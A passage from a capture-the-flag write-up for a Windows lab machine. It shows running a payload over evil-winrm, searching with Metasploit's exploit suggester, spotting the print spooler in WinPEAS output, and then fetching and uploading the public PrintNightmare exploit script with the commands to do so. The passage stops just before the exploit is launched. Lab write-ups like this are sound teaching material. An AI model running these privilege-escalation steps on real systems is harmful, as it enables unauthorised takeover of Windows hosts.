 Then, through `evil-winrm` on the target run: `upload e.exe` and then `.\e.exe`.

Then, back in the meterpreter, run `background` to get mack the the `msf` console. Then run `use post/multi/recon/local_exploit_suggester` and set the session with `set session 1` then `run` to get a list of possible exploits. This reveals nothing.

So, the actual exploit that should be used is `CVE-2021-1675`/`CVE-2021-34527`, or PrintNightmare. After enough searching one may find this exploit because the `spoolsv` service is running as shown in WinPEAS's "Current TCP Listening Ports" output (and when simply running `ps`):

```
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name

TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               135           0.0.0.0               0               Listening         708             svchost
TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               49408         0.0.0.0               0               Listening         464             wininit
TCP        0.0.0.0               49409         0.0.0.0               0               Listening         868             svchost
TCP        0.0.0.0               49410         0.0.0.0               0               Listening         844             svchost
TCP        0.0.0.0               49411         0.0.0.0               0               Listening         1176            spoolsv
TCP        0.0.0.0               49412         0.0.0.0               0               Listening         572             services
TCP        0.0.0.0               49413         0.0.0.0               0               Listening         580             lsass
TCP        10.10.11.106          139           0.0.0.0               0               Listening         4               System
TCP        10.10.11.106          445           10.10.14.78           36684           Established       4               System
TCP        10.10.11.106          5985          10.10.14.32           59202           Time Wait         0               Idle
TCP        10.10.11.106          5985          10.10.14.32           59204           Established       4               System
```

[0xdf's article "Playing with PrintNightmare"](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html) is a great tutorial on how to exploit this vulnerability. [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675), a PowerShell script developed by Caleb Stewart and John Hammond, is the most simple to use PrintNightmare exploit.

We can [download the exploit](https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1) to our attacker machine with `wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1` and then upload it to the target with our `evil-winrm` connection by running `upload CVE-2021-1675.ps1`. Then, run `set-ExecutionPolicy RemoteSigned -Scope CurrentUser` so you don't get the "execution of scripts is disabled on this system" error message ([StackOverflow answer where command was found](https://stackoverflow.com/a/4038991)). Now, we can launch the exploit:
